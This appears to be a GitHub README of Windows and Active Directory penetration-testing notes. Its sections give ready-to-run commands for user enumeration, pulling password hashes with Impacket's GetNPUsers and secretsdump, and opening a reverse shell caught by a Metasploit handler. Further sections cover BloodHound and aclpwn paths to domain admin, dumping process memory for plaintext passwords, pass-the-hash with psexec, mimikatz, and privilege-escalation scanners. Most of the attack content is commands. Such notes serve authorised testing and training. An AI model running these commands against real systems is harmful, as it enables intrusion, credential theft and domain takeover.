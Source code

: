 # WINDOWS Pen Testing scripts and tutorials

## Recon

Enum4Linux will get you Domains, Workgroups, Usernames, etc.
```bash
enum4linux -a [-u USER -p PASS] IP
```

Impackets lookupsid will give you also the users if enum4linux may not work properly

```bash
lookupsid.py IP
```

## Get User Password Hashes

Impackets GetNPUsers tries several attacks to retrieve password hashes

```bash
GetNPUsers.py IP
```

Further on Impackets secretdump can retrieve secret password hashes which only privileged accounts can retrieve, or due to a misconfiguration.
```bash
secretdump.py DOMAIN/USER:PWD@IP 
```


## WinRM 

### File transfer

For the winrm service use winrm/wirnmcp.rb to upload and download files

```bash
ruby winrm/winrmcp.rb IP USER PASSWORD -u LOCAL_FILES+ REMOTE_FOLDER
```

```bash
ruby ./winrm/winrm.rb IP USER PASSWORD -d REMOTE_FILES+ LOCAL_FOLDER
```

### Shell

use evil-winrm for a shell. 

If something wont work execute 

```bash
bash ./msf/create-reverse-shell.sh LOCAL_IP LOCAL_PORT 
```

and execute it on the remote server

while having the following session open at metasploit

```msf
msfconsole

use exploit/multi/handler
set LPORT LOCAL_PORT
set LHOST LOCAL_IP
exploit -j -z 
```

if the meterpreter session is opened in the msfconsole:

```
sessions -i 0
```

to get to the first created session


## SAMBA

```bash
smbclient -L //IP/ 
```

just hit enter for anonymous access. 
You could also try to access it anonymously with

```bash
smbclient //IP/SHARE 
```

Sometimes you can access the SYSVOL share, if it is not cleaned up it may contain some xml files in the Policy folder which contains password hashes


## Kerberos

Checkout Impacket scripts

if you have access rights on the machine you also can use mimikatz. 
Upload it and try it out. 


## BloodHound & aclpwn

Using BloodHound you can generate a path from owned principals to admin domains if an LDAP server is running

1. Upload SharpHound.ps1
2. Exec PS `C:\..\ Import-Module .\SharpHound.ps1`
3. Exec PS `C:\..\ Invoke-BloodHound -CollectionMethod All -DomainController DC -LdapUser USER -LdapPass PASSWORD -IgnoreLdapCert`
4. Download XYZ-BloodHound.zip
5. start neo4j `neo4j console &`
6. start BH `bloodhound`
7. upload zip file
8. use aclpwn `aclpwn -f USER -ft User -t ADMIN_DOMAIN -d DOMAIN -du neo4j -dp neo4jpass -s IP -u USER -p PASSWORD`
9. if successfull you can now use Impackets secretdump.py 'secretsdump.py DOMAIN/USER:PASSWORD@IP'
9.1 or use mimikatz 


## Dump Processes

Get ProcDump https://docs.microsoft.com/en-us/sysinternals/downloads/procdump and upload it to the windows server.
Afterwards you can dump any process by using

```bash
.\procdump64.exe -ma PID DUMP_FILE
```

Download it and analyze it. If Firefox is running, it might be possible that passwods are send plain text. 

## Shells

Next to evil-winrm, meterpreter shells and reverse shells you can get access using impackets psexec.py 

```bash
psexec.py DOMAIN/USER:PASSWORD@IP 
```

or if you cannot crack the NTLM Hash you can access directly using the hash with the pass the hash method (https://en.wikipedia.org/wiki/Pass_the_hash)

```bash
psexec.py -hashes LMHASH:NTHASH DOMAIN/USER@IP
```

## Privilege Escalation

### Mimikatz
Mimikatz has several options, from exploiting kerberos over pass the hash.
Look at https://github.com/gentilkiwi/mimikatz/wiki

### BloodHound and aclpwn 
see above

### Enumeration (not windows specific)

#### Dump Processes
see above

#### MITM
Getting a local mitm using a proxy for example, we can read traffic and ideally getting passwords in clear. 
Use own adjusted scripts depending on the software. 

#### enumerate whats on a machine
see https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/ for several PS commands to check the server for services, files etc.

#### CVEs 
Check for old CVEs with Sherlocks PowerShell script
upload Sherlock.ps1 to the server

```bash
Import-Module .\Sherlock.ps1
```

or use the newer version Watson.
upload the Watson_Net45.exe or Watson_Net35.exe to the server and execute

```bash 
.\Watson_Net45.exe 
```
